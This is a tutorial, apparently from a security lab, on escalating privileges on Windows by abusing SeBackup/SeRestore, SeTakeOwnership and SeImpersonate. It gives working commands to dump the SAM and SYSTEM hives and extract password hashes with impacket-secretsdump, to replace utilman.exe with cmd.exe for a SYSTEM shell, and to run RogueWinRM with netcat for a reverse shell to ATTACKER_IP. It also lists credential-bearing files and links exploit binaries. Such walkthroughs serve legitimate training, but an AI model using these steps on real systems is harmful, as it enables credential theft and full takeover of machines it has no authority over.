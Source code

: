 # **Abusing dangerous privileges - Windows Privilege Escalation**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/622cad3d-d7d0-458d-8009-3b82ea044286)

**In the realm of Windows security, certain privileges wield considerable power, capable of exerting control over critical system functions. These are what we refer to as "Dangerous Privileges." These elevated permissions, when misused or exploited, pose significant risks to the overall integrity and security of the operating system. Here is a Practical Breakdown on How Certain privileges in Windows could lead to Unauthorized Access**

***


- Run this command to check for privileges


```
whoami /priv
```

- Note that only those privileges that allow us to escalate in the system are of interest.


## SeBackup / SeRestore


![](https://i.imgur.com/y9LrrrW.png)





- With this privilege, we can backup the SAM and SYSTEM hashes, we can use the following commands:


```
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```


- Now go ahead and send this 2 files to our attacker machine using any method you like



![](https://i.imgur.com/RrsUzEY.png)



- And use `impacket-secretsdump` to retrieve the users' password hashes:



```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```




![](https://i.imgur.com/HZUGMA0.png)


- We can then use pass the hash to login


![](https://i.imgur.com/7xIilg8.png)




## SeTakeOwnership



![](https://i.imgur.com/Y2z3mob.png)



- We can then abuse `utilman.exe`, a built-in Windows application used to provide Ease of Access options during the lock screen


![](https://i.imgur.com/MS2BtF5.png)



- To replace `utilman`, we will start by taking ownership of it with the following command:


```
takeown /f C:\Windows\System32\Utilman.exe
```


- Then give your current user full permissions over `utilman.exe` you can use the following command:



```
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```




**_Example_**



![](https://i.imgur.com/YFNbx3T.png)



- After this, we will replace `utilman.exe` with a copy of `cmd.exe`:




```
copy cmd.exe utilman.exe
```



- To trigger `utilman`, we will lock our screen from the start button
- proceed to click on the **"Ease of Access"** button, which runs `utilman.exe` with `SYSTEM` privileges. Since we replaced it with a `cmd.exe` copy.



![](https://i.imgur.com/oeLERDx.png)


#### **Extra**

Use this with files that might contain credentials such as

- `%WINDIR%\repair\sam`
- `%WINDIR%\repair\system`
- `%WINDIR%\repair\software`
- `%WINDIR%\repair\security`
- `%WINDIR%\system32\config\security.sav`
- `%WINDIR%\system32\config\software.sav`
- `%WINDIR%\system32\config\system.sav`
- `%WINDIR%\system32\config\SecEvent.Evt`
- `%WINDIR%\system32\config\default.sav`
- `c:\inetpub\wwwwroot\web.config`



## SeImpersonate / SeAssignPrimaryToken


- These privileges allow a process to impersonate other users and act on their behalf.


![](https://i.imgur.com/Ztfr87a.png)



- Start a netcat listener to receive a reverse shell on our attacker's machine:


```bash
nc -lvnp 4444
```



- And then, use our web shell to trigger the `RogueWinRM` exploit using the following command
- Make sure to transfer [win-netcat](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [RogueWinRM](https://github.com/sec-fortress/Exploits/blob/main/RogueWinRM.exe) to target machine
- Also note that the `RogueWinRM` file stated earlier might not work, so download from [here](https://github.com/antonioCoco/RogueWinRM) and compile in the windows machine


```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```



![](https://i.imgur.com/EGtIOIr.png)





